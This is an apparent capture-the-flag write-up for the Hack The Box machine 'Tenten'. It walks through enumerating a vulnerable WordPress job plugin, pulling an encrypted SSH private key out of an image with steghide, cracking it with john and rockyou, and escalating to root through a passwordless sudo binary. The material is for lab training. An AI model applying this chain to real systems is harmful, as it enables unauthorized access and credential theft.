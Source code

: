 ```yaml
---
layout: post
title:  "HTB Tenten Machine Writeup"
date:   2020-1-2 00:10:00 +0000
categories: hackthebox
---
```


# Nmap scan
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ec:f7:9d:38:0c:47:6f:f0:13:0f:b9:3b:d4:d6:e3:11 (RSA)
|   256 cc:fe:2d:e2:7f:ef:4d:41:ae:39:0e:91:ed:7e:9d:e7 (ECDSA)
|_  256 8d:b5:83:18:c0:7c:5d:3d:38:df:4b:e1:a4:82:8a:07 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 4.7.3
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Job Portal &#8211; Just another WordPress site
Warning: OSScan results may be unreliable
```

# Webapp recon & pwn
Nmap scan leaks wordpress as a title. Wpscan returns a vulnerable plugin = 'job manager' and two users, 'takis' & 'zesk'.
Reading about the vulnerable plugin, it seems we can enumerate the site with the plugin.
We can fuzz this param with a basic bash oneliner.
```
or i in $(seq 1 15); do echo -n " $i "; curl -s http://10.10.10.10/index.php/jobs/apply/$i/ | grep '<title>'; done
 1 <title>Job Application: Hello world! &#8211; Job Portal</title>
 2 <title>Job Application: Sample Page &#8211; Job Portal</title>
 3 <title>Job Application: Auto Draft &#8211; Job Portal</title>
 4 <title>Job Application &#8211; Job Portal</title>
 5 <title>Job Application: Jobs Listing &#8211; Job Portal</title>
 6 <title>Job Application: Job Application &#8211; Job Portal</title>
 7 <title>Job Application: Register &#8211; Job Portal</title>
 8 <title>Job Application: Pen Tester &#8211; Job Portal</title>
 9 <title>Job Application:  &#8211; Job Portal</title>
 10 <title>Job Application: Application &#8211; Job Portal</title>
 11 <title>Job Application: cube &#8211; Job Portal</title>
 12 <title>Job Application: Application &#8211; Job Portal</title>
 13 <title>Job Application: HackerAccessGranted &#8211; Job Portal</title>
 14 <title>Job Application: Application &#8211; Job Portal</title>
 15 <title>Job Application: temp_logo_testing &#8211; Job Portal</title>
```
'hackeraccessgranted' looks interesting, as if someones already pwned the app. Visiting the page shows an image.
We can get the image with wget and start poking steganography techniques at it. Steghide yields something
```
steghide extract -sf HackerAccessGranted.jpg 
Enter passphrase: <blank> 
wrote extracted data to "id_rsa".
```
File we retrieve is a private rsa key which has been encrypted. ssh2john can help us out.
```
ssh2john id_rsa > id.encrypted
root@kali:~/htb/tenten# john id.encrypted --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA 32/64])
Press 'q' or Ctrl-C to abort, almost any other key for status
superpassword    (id_rsa)
1g 0:00:00:00 DONE (2018-12-12 22:32) 1.123g/s 876444p/s 876444c/s 876444C/s superpassword
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```
Chmod 600 the file and login with takis user we found before.

# Gaining root.
Again a sudo check reveals all.
```
takis@tenten:~$ sudo -l
Matching Defaults entries for takis on tenten:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User takis may run the following commands on tenten:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: /bin/fuckin
```
It seems our current user can run the binary 'fuckin' without a password. Looking at the binary, we can see its simply calling bash with root permissions so we can abuse this to read the root file.
```
takis@tenten:/bin$ sudo fuckin id
uid=0(root) gid=0(root) groups=0(root)

takis@tenten:/bin$ sudo fuckin cat /root/root.txt
<redacted>
```

done and dusted.
